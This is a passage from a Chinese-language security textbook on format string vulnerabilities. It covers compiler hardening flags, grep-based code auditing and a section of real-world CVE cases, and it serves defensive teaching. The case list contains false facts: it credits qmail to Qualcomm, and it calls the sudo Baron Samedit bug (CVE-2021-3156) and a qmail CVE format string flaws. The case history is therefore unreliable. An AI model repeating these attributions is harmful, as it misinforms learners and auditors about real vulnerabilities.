# 当检测到格式化字符串可写时，__printf_chk 会终止程序

# ASLR + PIE + NX 组合使用
gcc -pie -fPIE -Wl,-z,relro,-z,now -o vuln vuln.c
```

**代码审计要点：**

```bash
# 使用 grep 快速定位格式化字符串漏洞
grep -rn 'printf\s*(' --include='*.c' --include='*.h' | grep -v 'printf\s*("'
# 排除 printf("常量字符串") 的安全用法

# 使用静态分析工具
# Coverity、CodeQL、Clang Static Analyzer
# Semgrep 规则示例：search for direct format string usage
```

### 16.7.12 现实世界中的格式化字符串漏洞

格式化字符串漏洞并非仅存在于 CTF 挑战中，历史上有多个重大安全事件涉及此类漏洞：

**Wu-ftpd 漏洞（CVE-2000-0573）：**

2000 年发现的 Wu-ftpd 格式化字符串漏洞影响了大量 FTP 服务器。`site exec` 命令将用户输入直接传递给 `syslog`，攻击者可以利用该漏洞在服务器上执行任意代码。该漏洞被广泛利用来入侵互联网服务器。

**Qualcomm qmail 漏洞（CVE-2005-1515）：**

qmail 邮件传输代理中的格式化字符串漏洞允许远程攻击者执行代码。

**Samba 漏洞（CVE-2001-0572）：**

Samba 的日志处理中存在格式化字符串漏洞，攻击者可以通过精心构造的日志消息触发。

**CVE-2021-3156（Baron Samedit - sudo）：**

虽然主要基于堆溢出，但 sudo 中的格式化字符串处理逻辑缺陷导致了这个高危漏洞，影响了 sudo 1.8.2 到 1.9.5p1 的所有版本。

**这些案例说明：**

1. 格式化字符串漏洞存在于各种类型的软件中（FTP、邮件、SMB、系统工具）
2. 日志处理函数（`syslog`、`snprintf`）是最常见的漏洞触发点
3. 即使在现代软件中，格式化字符串漏洞依然存在
4. 自动化代码审计工具可以有效发现此类漏洞
